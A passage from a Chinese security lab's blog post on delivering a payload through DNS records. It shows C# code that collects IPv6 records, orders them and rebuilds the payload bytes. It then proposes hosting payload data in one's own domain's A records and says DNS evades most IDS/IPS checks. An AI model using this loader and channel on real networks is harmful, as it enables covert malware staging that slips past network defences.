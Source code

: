     
    
    for(int i = start + 1; i < All_lines.Length - 2; i++){    string str = All_lines[i].Replace(" ", "");    A_Records.Add(__zero(str));}

  
排序解析后的ipv6数据，并将每个ipv6地址包含的payload数据恢复出来，然后拼接。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    List<string> Keys = new List<string>();List<string> Values = new List<string>();foreach (var item in A_Records){    string key = item.Split(':')[7];    Keys.Add(key);    string value = "";    for(int i = 0; i <= 6; i++)    {        value += item.Split(':')[i];    }    Values.Add(value);}var dict = new Dictionary<string, string>();for (int i = 0; i < Keys.Count; i++)    dict.Add(Keys[i], Values[i]);Keys.Sort();string DATA = "";for (int i = 0; i < Keys.Count; i++){    DATA += dict[Keys[i]];}

  
此时的数据还是原始payload替换00之后的数据，所以下一步我们就是将payload字符串格式化成字节数组，并将aa替换成00，来还原原始的payload。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    string tmp = string.Empty;byte[] __Bytes = new byte[DATA.Length / 2];string t = string.Empty;for (int i = 0; i < __Bytes.Length; i++){    int str_start = i * 2;    tmp = DATA.Substring(str_start, 2);    if (tmp == "aa")        tmp = "00";    t += tmp;    byte current = Convert.ToByte("0x" + tmp.ToString(), 16);    __Bytes[i] = current;}

  
其实到这里，我们获得的数据还是和原始的payload数据不一样，因为我们再构造正确的IPV6地址格式的时候，再payload的末尾填充了FF，但是这里的FF并不会影响payload的运行，所以就不处理了。  

##  **4.5 利用结果**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228190003.png)

#  

  

 **0x05 拓展思路**

  
这里我们是利用的自己的dns服务器，解析的合法域名的的A记录数据。那我们能不能利用自己的域名的A记录解析来作为数据传输的载体呢？比如我们购买亚马逊的aws和域名，然后添加我们的A记录数据为payload数据。  

  

 **0x06 结论**

  
DNS协议在很多的IDS/IPS设备中都是不被检测的，利用DNS解析来作为数据传输还是很有安全保证的。缺点就是构造相对麻烦，也有对payload字节的特定限制。  
  

银河实验室

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228190004.png)

银河实验室（GalaxyLab）是平安集团信息安全部下一个相对独立的安全实验室，主要从事安全技术研究和安全测试工作。团队内现在覆盖逆向、物联网、Web、Android、iOS、云平台区块链安全等多个安全方向。官网：http://galaxylab.pingan.com.cn/

  
